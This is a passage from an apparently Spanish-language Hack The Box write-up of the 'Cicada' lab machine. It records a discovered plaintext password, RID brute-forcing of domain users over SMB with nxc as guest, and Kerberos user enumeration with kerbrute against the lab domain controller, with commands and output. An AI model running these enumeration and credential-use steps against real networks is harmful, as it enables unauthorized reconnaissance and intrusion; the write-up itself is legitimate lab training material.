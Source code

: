 De esta forma, descubro una contraseña `Cicada$M6Corpb*@Lp#nZp!8` que podría estar siendo utilizada por algún usuario del entorno.

---
## Active Directory Exploitation

Usando nxc puedo enumerar los usuarios del dominio que son de tipo SidTypeUser.

```terminal
/home/kali/Documents/htb/machines/cicada:-$ sudo nxc smb 10.10.11.35 -u 'guest' -p '' --rid-brute | grep SidTypeUser
SMB         10.10.11.35     445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        501: CICADA\Guest (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        502: CICADA\krbtgt (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1000: CICADA\CICADA-DC$ (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)
```

```terminal
/home/kali/Documents/htb/machines/cicada:-$  echo 'Administrator\nGuest\nkrbtgt\nCICADA-DC$\njohn.smoulder\nsarah.dantelia\nmichael.wrightson\ndavid.orelious\nemily.oscars' > valid_users1.txt
```

Con kerbrute verifique la validez de estos usuarios.

```terminal
/home/kali/Documents/htb/machines/cicada:-$ /home/kali/Documents/github/kerbrute/kerbrute_linux_amd64 userenum -d cicada --dc 10.10.11.35 valid_users1.txt
```

![](assets/img/htb-writeup-cicada/cicada2_1.png)
